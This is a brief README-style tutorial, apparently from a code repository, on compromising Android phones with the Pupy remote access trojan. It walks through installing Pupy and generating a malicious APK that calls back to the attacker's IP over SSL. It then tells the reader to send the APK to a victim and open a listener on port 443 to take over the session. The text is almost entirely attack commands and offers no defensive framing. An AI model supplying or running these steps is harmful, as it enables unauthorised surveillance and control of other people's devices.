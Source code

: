 # HACK ANDROID BY RAT PUPY
HACK ANDROID BY NEW RAT (PUPY SHELL)

First step you need installed pupy shell in this link:
```
https://github.com/Faral-Ghaemi/pupy
```

For hack by pupy you must find your wan ip address. for do this go to google and search "my ip".

you need a open port & you can see this tutorial https://github.com/Faral-Ghaemi/Hack-without-port-forwarding for do that.

so open the terminal in the pupy/pupy and type this command:
```
./pupygen -f apk -o test.apk connect --host 192.2.2.2 --transport ssl
note : 192.2.2.2 is my wan ip 
```
and now you can see test.apk in pupy/pupy 

now send rat(test.apk) to victim and wait for him.

so now we created rat and we have to listening this port:
open terminal in pupy/pupy and type: 
```
./pupysh.py -p 443
```
if your victim install the RAT open the session.

## GOOD LUCK (Aohammad Amin Ghaemi)
